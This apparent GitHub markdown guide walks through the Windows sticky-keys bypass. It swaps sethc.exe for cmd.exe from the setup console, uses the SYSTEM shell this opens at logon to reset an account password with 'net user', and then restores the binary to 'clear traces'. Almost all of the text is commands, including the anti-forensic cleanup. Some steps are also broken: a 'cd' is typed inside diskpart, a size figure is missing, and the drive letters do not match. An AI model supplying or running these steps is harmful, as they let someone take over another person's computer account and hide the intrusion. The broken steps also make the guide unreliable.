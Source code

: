 # Living off the Land

TODO: include screenshots

Press SHIFT + F10

Enumerate the partitions.

```
X:\Sources> diskpart.exe

DISKPART> list volume
```

Select the main partition. You'll easily notice it has at least gigabytes of size.

```
DISKPART> cd d:

DISKPART> exit
```

backup the binary

```
X:\Sources> d:

D:\> copy C:\Windows\system32\sethc.exe C:\Windows\system32\sethc.bak

D:\> copy /y C:\Windows\system32\cmd.exe C:\windows\system32\sethc.exe
```

Reboot then press SHIFT key 5 times. Then reset the password.

```
C:\> net user

C:\> net user <current_account> <new_password>
```

Revert the binaries to clear traces ahead of time.

```
C:\> copy /y C:\Windows\system32\sethc.bak C:\Windows\system32\sethc.exe

C:\> del /f C:\Windows\system32\sethc.bak
```